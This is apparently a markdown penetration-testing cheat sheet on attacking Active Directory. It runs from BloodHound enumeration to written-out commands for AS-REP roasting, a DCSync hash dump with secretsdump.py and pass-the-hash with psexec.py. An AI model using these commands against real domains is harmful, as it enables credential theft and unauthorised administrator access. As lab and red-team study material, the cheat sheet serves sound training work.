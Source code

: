 # :red_circle: BloodHound
______
>BloodHound uses graph theory to reveal the hidden and often unintended relationships within an Active Directory environment. Attackers can use BloodHound to easily identify highly complex attack paths that would otherwise be impossible to quickly identify. Defenders can use BloodHound to identify and eliminate those same attack paths. Both blue and red teams can use BloodHound to easily gain a deeper understanding of privilege relationships in an Active Directory environment.

**Install from [git](https://github.com/fox-it/BloodHound.py) or:**
```bash
pip install bloodhound
apt install neo4j
apt install bloodhound
```

**Basic enum using valid AD credentials:**

```bash
bloodhound-python -d $DOMAIN -u $USER -p $PASSWORD -gc $HOST.$DOMAIN -c all -ns $IP_ADDRESS
#-d: Domain Controller
#-gc: Global Catalog
#-c: Which information to collect
#-ns: Alternative name server to use for queries
```  

**Using this information:**

Once we get the .json files, we need to open bloodhound in order to analyze the data:

```bash
cd /us/share/neo4j/bin/ && ./neo4j console start
#Now run in another terminal window:
bloodhound --no-sandbox
```

We can select various queries, of which some very useful ones are:
- Shortest Paths to High Value Targets
- Find principles with DCSync Rights


`GetChangesAll:` If we see that a user have GetChangesAll privileges to the
domain means that the account has the ability to request replication data
from the domain controller, and gain sensitive information such as user hashes:

![BloodHound GetchangesAll Example](https://www.hackthebox.eu/storage/startingpoint/Pathfinder/bloodhound.png)

**Check for disable Kerberos pre-auth:**

It's worth checking if Kerberos pre-authentication has been disabled for this account, which means it is vulnerable to ASREPRoasting. We can check this using a tool such as Impacket's GetNPUsers:

```bash
GetNPUsers.py $DOMAIN/$USER -request -no-pass -dc-ip $IPADDRESS
```

We obtain the TGT ticket for the $USER and we can use Hashcat or JTR to obtain the plaintext password.


In order to leverage the GetChangesAll permission, we can use Impacket's [secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) to perform a DCSync attack and dump the NTLM hashes of all domain users:

```bash
secretsdump.py -dc-ip $DCIPADDRESS $DOMAINNAME/$USER:$PASSWORD@$DCIPADDRESS
```

**Privesc using Administrator NTLM Hash:**

Using the default domain administrator NTLM hash, we can use this in a PTH attack to gain elevated access to the system. For this, we can use Impacket's psexec.py:

```bash
psexec.py $DOMAINNAME/administrator@$DCIPADDRESS -hashes $NTMLhash:$NTLMhash
```
